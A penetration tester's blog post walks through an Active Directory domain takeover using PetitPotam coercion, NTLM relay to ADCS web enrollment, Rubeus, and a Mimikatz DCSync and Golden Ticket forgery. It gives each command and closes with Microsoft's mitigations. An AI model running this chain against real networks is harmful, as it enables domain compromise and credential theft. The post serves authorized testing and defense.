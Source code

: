 ```yaml
---
layout: single
date: 2022-04-22
title: "Pwning Domain Admin with PetitPotam"
toc: true
draft: false
type: ["posts","post"]
categories:
  - Courses
tags:
  - ActiveDirectory
  - RedTeam
  - Pentest
  - PetitPotam
  - NTLM Relay
  - ADCS
---
```

**Disclaimer:**
Original research was done by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) in their [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) whitepaper.

[PetitPotam](https://github.com/topotam/PetitPotam) PoC was written by [Lionel Gilles](https://twitter.com/topotam77).

I still need to conduct more research and experiment to fully understand this attack and the underlying technicalities.


## Introduction
In a recent network pentest, I found an ADCS CA (Active Directory Certificate Services Certificate Authortity) on the target domain. I haven't gotten a chance to play around with ADCS before, but I did remembered reading about one attack technique called [PetitPotam](https://github.com/topotam/PetitPotam) that abuses NTLM Relay via ADCS to take over the domain. After some time reading up about the technique and getting my hands dirty, I have successfully compromised DA! This blog post will be a quick rundown of how I got DA using this attack.

### Active Directory Certificate Services
On a high level, ADCS is a server role in Windows Active Directory that allows users to build a Public Key Infrastructure (PKI). This means that it can provide digital certificates and digital signature capabilities, improving confidentiality via encryption and integrity via digital signatures. The practical applications of ADCS are VPN (Virtual Private Network), IPSec (Internet Protocol Security), EFS (Encrypting File System), Smart Card logon, and more.

### PetitPotam
PetitPotam is an attack technique that abuses NTLM Relay via ADCS CA with Web Enrollment enabled by exploiting the MS-EFSRPC (Encrypting File System Remote Protocol). This technique allows an attacker in the internal network to force the Domain Controller (DC) machine account to authenticate towards a machine with NTLM relay configured (the attacker machine). This authentication will then be relayed to the CA Web Enrollment to request for a certificate as the DC. This certificate can be captured and be used to request for a TGT as the DC machine account. With this TGT, Mimikatz can be used to dump credentials of the DA or the krbtgt account to fully compromise the Active Directory environment.

## Action
From the foothold domain machine, I did some enumeration and was able to locate a CA in the domain. A native Windows tool called `certutil.exe` or [Certify](https://github.com/GhostPack/Certify) can be used for this purpose. Certify is a C# tool to enumerate and abuse misconfigurations in ADCS, this tool can also be used to look for vulnerable certificate templates. Misconfiguration in certificate templates can lead to privilege escaltion, unfortunately, no vulnerable template was identified.
{{< image src="/images/CA_.png" alt="CA" position="left" style="border-radius: 8px;" >}}
*Identified CA*

Now I've got the domain name for the CA Web Enrollment Interface at `https://ca-hostname/certsrv`, I was able to access this domain and request for a certificate to get a `certfnsh.asp`.
{{< image src="/images/CA_WebE.png" alt="CA Web Enrollment" position="left" style="border-radius: 8px;" >}}
*CA Web Enrollment Portal*
{{< image src="/images/certfnsh.png" alt="certfnsh.asp" position="left" style="border-radius: 8px;" >}}
*Generated certfnsh.asp*

With this, I was able to launch the ADCS Relay attack.

From the attacker box, launch `ntlmrelayx.py`:
```
ntlmrelayx.py -debug -smb2support --target https://ca-hostname/certsrv/certfnsh.asp --adcs --template domaincontroller
```
The `--template` argument would depend on the account that would be relayed. Since I was relaying a DC, then the template should be `domaincontroller`, you could enumerate the template on the ADCS using Certify: `Certify.exe cas`

On another window on the attacker box, launch [PetitPotam](https://github.com/topotam/PetitPotam) against the DC:
```
sudo python3 petitpotam.py <Attack box's IP> <DC's IP>
```

The attack was successful, on the ntlmrelayx window, a Base64 encoded certificate of the DC machine account was captured:
{{< image src="/images/b64cert.png" alt="certfnsh.asp" position="left" style="border-radius: 8px;" >}}
*Base64 certificate of DC$*


From here, I proceeded with requesting for a TGT of DC$ using `Rubeus`:
```
Rubeus.exe asktgt /user:DC$ /domain:<domain> /certificate:<base64-certificate> /ptt
```
With the `/ptt` option, the returned TGT of DC$ would be imported into my current user session.
\
From here, a threat actor can aim for the highest prize by dumping the AES256 encryption key of the krbtgt account to forge a Golden Ticket:
Launch Mimikatz and dump the AES256 encryption key:
```
# From mimikatz:
lsadump::dcsync /domain:<domain> /user:krbtgt
```
Once the AES256 encryption key of the krbtgt account has been captured, the Golden Ticket could be forged:
```
# From Mimikatz:
kerberos::golden /user:Administrator /domain:<domain> /sid:<SID of the domain> /aes256:<aes256 key> /ticket:goldie.kirbi
```
Proceed to inject the Golden Ticket:
```
Rubeus.exe ptt /ticket:goldie.kirbi
```
GG!

## Mitigation

The misconfiguration has been mitigated immediately by enabling Extended Protection for Authentication (EPA) for CA Web Enrollment and Certificate Enrollment Web Service.

Addition mitigations that are recommended by Microsoft are:
- Disable NTLM Authentication on Windows Domain Controllers.
- Disable NTLM on any ADCS server using Group Policy.
- Disable NTLM for Internet Information Services (IIS) on AD CS Servers in the domain running the "Certificate Authority Web Enrollment" or "Certificate Enrollment Web Service" services.
\

More information can be found [here](https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429?ranMID=46131&ranEAID=a1LgFw09t88&ranSiteID=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&epi=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&irgwc=1&OCID=AID2200057_aff_7806_1243925&tduid=%28ir__pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00%29%287806%29%281243925%29%28a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA%29%28%29&irclickid=_pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00)
